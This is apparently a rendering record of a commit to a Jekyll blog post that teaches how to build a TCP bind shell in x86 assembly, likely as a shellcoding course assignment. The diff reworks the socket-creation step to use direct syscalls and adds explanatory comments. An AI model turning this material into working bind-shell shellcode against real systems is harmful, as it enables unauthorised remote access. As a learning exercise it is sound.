

Before and after one commit to Minfanger101/sm00v.github.io, a Jekyll site: the page built from _posts/2019-10-19-assignment_1.md, in a window 1280 px wide and 1400 px high, scrolled down 2569 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries.

Commit message:
blog update

````diff
--- a/_posts/2019-10-19-assignment_1.md
+++ b/_posts/2019-10-19-assignment_1.md
@@ -80,36 +80,44 @@ int 0x80 ;;; execve
 
 ## Building a TCP Bind Shell.
 
-The socket or SYS_SOCKETCALL is syscall decimal number 102 or hex 0x66 which receives three arguements according to `man7.org/linux/man-pages/man2/socketcall.2.html`. The received arguements are `domain (selects the protocal which we want tcp)`, `type (we want SOCK_STREAM)`, and `protocol ()`.
-
-Any socket in C would be built upon the skeleton below:
+In this excercise, we will build a bind tcp shell using 6 syscalls. It is important to understand that there
+many ways to build a bind shell. In this blog, I call each syscall directly using their hexidecimal referrence
+rather than using socketcall in each code segment like in the metasploit bind shell disassembly example. This makes the
+code just a bit longer but in my case, I wanted to understand both potentialities.
 
 ### Socket
 ```nasm
-global _start
+global _start	; Standard start
+		;
+section .text	;
+_start:		;
 
-section .text
-_start:
-;Begin by calling/intializing socket
+xor ebx, ebx	; Zero out registers before usage to avoid a logic error
+xor ecx, ecx	;
+xor edx, edx	;
+xor edi, edi	;
+mul cx		; ax = ax * cx (0)
 
-push 0x66 ; rather than xor'ing eax, eax we can do a push
-pop eax   ; of the syscall socket and pop it into eax sparing us a byte (eax).
+; int socket(int domain, int type, int protocol) //
+; syscall number: 359 (0x167)
+;
+; Argument Values:
+; EBX -> domain = 2 (AF_INET/IPv4)
+; ECX -> type = 1 (SOCK_STREAM/TCP)
+; EDX -> protocol = 0 (IPPROTO_TCP)
+;
+; Note: For protocol, we could also use 6, as the man page for socket tells us,
+; "Normally only a single protocol exists to support a particular socket type
+;   within a given protocol family, in which case protocol can be specified
+;   as 0."
 
-;Feed socket syscall it's arguements starting with domain (1 aka SYS_SOCKET)
-;which can be referenced in /usr/include/linux/net.h.
-xor edi, edi  ; clear edi
-push edi      ; push edi (0x0) on stack. protocol=IPPROTO_IO (0x0)
-push 0x1      ; put a 1 on the stack
-pop ebx	      ; socketcall needs ebx to be 1. this clears ebx and moves 1 to ebx
-push ebx      ; push second arg on stack. socket_type=SOCK_STREAM (0x1)
-push 0x2      ; push first arg on stack socket_family=AF_INET (0x2)
-mov ecx, esp  ; move esp pointer to ecx per socketcall requirements [2, 1, 0]
-int 0x80      ; call interrupt to execute socket syscall
+
+mov eax, 0x167	; socket syscall
+mov bl, 2	; socket_family=AF_INET (0x2)
+mov cl, 1	; socket_type=SOCK_STREAM (0x1)
+mov dl, 0	; protocol=IPPROTO_IO (0x0)
+int 0x80	; interrupt
 ```
-
-Let's analyze the `BIND` syscall arguements. A bind function would appear as so:
-```int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);```
-
 
 ### Bind
 Now that we have created a socket, it is time to bind to a given port.
````
